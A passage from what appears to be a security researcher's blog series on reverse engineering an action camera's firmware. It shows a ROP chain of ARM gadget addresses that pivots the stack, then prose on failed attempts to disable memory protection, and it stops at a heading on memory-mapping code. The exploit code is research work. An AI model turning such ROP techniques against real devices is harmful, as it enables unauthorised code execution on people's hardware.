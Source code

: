 ```
request += p32(0xc01bbd80) # pc

# | 0xc01bbd80  | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} | 
request += p32(0xc021ff38) # r4 <- we get this gadget to set the sp from our r11 and load registers from our new stack
request += p32(0xdeadbeef) # r5
request += p32(0xc05c49d9) # r6 <- this is a thumb mode gadget
request += p32(0xc09afec0) # r7 <- this MUSt be this address (it is the address of a mutex we unlock)
request += p32(0xc03b2c40) # r8
request += p32(0xdeadbeef) # r9
request += p32(0xdeadbeef) # r11
request += p32(0xc03f4b90) # pc

# | 0xc03f4b90 | c03f4b90 | cpy r10,r0 | c03f4b98  | blx r8 | 
# | 0xc03b2c40 | c03b2c40 | mov r8,#0x0 | c03b2c44 | blx r6 |
# | 0xc05c49d8 | c05c49d8 | add.w r11,r10,r8 | c05c49e0  | blx r4  | <- clobbers r1/2, thumb as well probs, but sets the r11 to something we control
```

Cool, so now we have a much larger and less limited secondary ROP-chain to work with!

# Mapping Executable Memory

Now that we are less restrained on gadgets and values we can pop off of the stack (as we can now include null terminators), we should be able to figure out how memory is mapped, and reuse some of those functions to map some executable memory that we control.

## MPU or MMU?

At this point I still have no idea what the CPU in this MCU is, so I didn't know if it had an MPU or an MMU - I tried using the following function to turn the MPU off (which I reversed out of memory management functions) to disable all memory protections, letting me execute code:

![mem_read.png](/assets/images/analysing_an_action_camera_part_4/turn_off_mpu.png)

However this just kept resulting in weird crashes, even when I used gadgets to flush and invalidate the data/instruction caches - at this point I realised I would have to change strategy as this MCU probably doesn't have an MPU.

## Reversing Memory Mapping Code
